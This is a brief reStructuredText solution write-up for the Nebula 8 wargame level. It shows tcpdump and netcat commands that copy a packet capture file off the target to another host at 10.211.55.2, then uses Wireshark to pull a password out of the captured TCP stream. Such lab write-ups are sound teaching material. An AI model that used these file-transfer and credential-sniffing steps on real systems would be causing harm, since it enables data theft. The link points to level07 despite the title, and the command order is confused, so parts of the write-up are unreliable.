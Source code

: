 .. _nebula08:

.. role:: bash(code)
	  :language: bash

Nebula 8
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**No Source Code Given**

Solution
--------

.. code-block:: bash
		$ tcpdump -qns 0 -X -r capture.pcap
		$ nc -l 2001 > capture.pcap
		$ nc 10.211.55.2 2001 < capture.pcap

Open wireshark and look Wireshark and go to Analize -> Follow TCP stream, this will give you the password.
      
